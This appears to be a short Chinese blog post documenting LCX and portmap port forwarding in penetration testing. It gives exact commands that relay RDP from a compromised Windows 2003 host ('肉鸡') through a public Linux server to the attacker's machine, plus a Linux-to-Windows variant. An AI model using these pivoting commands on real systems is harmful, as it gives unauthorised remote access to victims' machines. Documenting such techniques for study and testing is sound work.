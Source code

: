 ```yaml
---
layout:     post
title:      LCX端口转发
subtitle:   win2003-公网linux-本地RDP连接
date:       2019-05-25
author:     Threekb
header-img: img/post-bg-coffee.jpeg
catalog: true
tags:
    - LCX
    - 端口转发
---
```


## LCX端口转发

>LCX端口转发是在渗透过程中经常会用到的一种技术手段，使用方法也比较简单，但是今天用的时候突然忘了该怎么使。
>所以还是做个记录，方便以后查阅

##实验环境
* win2003  （肉鸡）
* 公网linux  （转发机器）
* 本机   （攻击机）

##过程记录


* 在肉鸡上传lcx.exe，并在lcx.exe目录下执行命令<br>
`lcx.exe -slave 45.77.43.77 2222 192.168.17.128 3389`
>将本机的3389端口转发到45.77.43.77的2222端口

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215123.png)

* 在公网的linux机器上执行命令<br>
`./portmap -m 2 -p1 2222 -p2 55`
>监听本地的2222端口，并将其数据转发到55端口

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215444.png)

* 在本机使用mstsc连接45.77.43.77的55端口

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215653.png)

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215810.png)

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215820.png)

* 连接成功

##拓展
>上面做的是win-linux-win

**其实遇到也会linux-win-linux（win）**

命令大同小异：

linux转发 `./portmap -m 3 -h1 192.168.91.134 -p1 22 -h2 192.168.91.129 -p2 2222`
>将本机的

win监听本地 `lcx.exe -listen  2222 55`

>监听本地的2222端口并将数据转发到55端口